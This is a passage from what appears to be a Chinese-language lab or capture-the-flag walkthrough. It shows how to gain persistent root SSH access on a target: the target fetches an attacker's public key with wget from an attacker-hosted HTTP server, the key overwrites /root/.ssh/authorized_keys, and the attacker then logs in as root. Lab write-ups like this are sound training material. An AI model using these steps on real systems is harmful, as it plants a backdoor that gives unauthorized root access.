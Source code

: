 此时可以直接看到 proof.txt 文件。

**ssh**

这里可以通过写公钥到 .ssh 目录下来进行 ssh 登陆

攻击机
```bash
ssh-keygen -t rsa
cd .ssh
python -m SimpleHTTPServer 8000
```

靶机
```bash
wget http://192.168.1.248:8000/id_rsa.pub
cp id_rsa.pub /root/.ssh/authorized_keys
```

攻击机
```bash
ssh root@192.168.1.249 -i id_rsa
```
